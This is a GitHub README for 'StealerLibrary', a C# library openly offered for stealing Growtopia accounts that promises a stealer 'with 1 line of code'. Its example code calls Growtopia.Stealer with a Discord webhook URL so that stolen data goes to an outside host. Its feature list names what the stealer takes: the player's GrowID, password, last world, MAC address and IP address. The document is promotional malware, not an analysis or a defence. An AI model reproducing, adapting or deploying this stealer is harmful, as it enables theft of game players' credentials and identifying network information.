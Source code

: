# StealerLibrary
Growtopia (Save.dat) Stealer Library that basically let you to write a stealer with 1 line of code.

## Compiled Version: [Release V1](https://github.com/extatent/StealerLibrary/releases/tag/V1)

### Compile the source code with Visual Studio and add the .DLL to the references in your project and start writting the code below.

## Example Usage : 

```csharp
using StealerLibrary;
using System;

namespace Example
{
    class Program
    {
        private static void Main()
        {
            Growtopia.Stealer("https://discord.com/api/webhooks/1234567891011/WebhookUrl", "ProfilePictureUrl [Optional]", "Webhook Name", true, true, false);
        }
    }
}
```
1. Webhook Url
2. Profile Picture Url
3. Webhook Name
4. Last World (True/False)
5. MAC Address (True/False)
6. IP Address (True/False)

## Features

- GrowID
- Password
- Last World (Customizable: True/False)
- MAC Address (Customizable: True/False)
- IP Address (Customizable: True/False)

## StealerLibrary is licensed under the GNU General Public License v3.0. Before doing anything with the source code, please read [this](https://www.gnu.org/licenses/gpl-3.0.html)
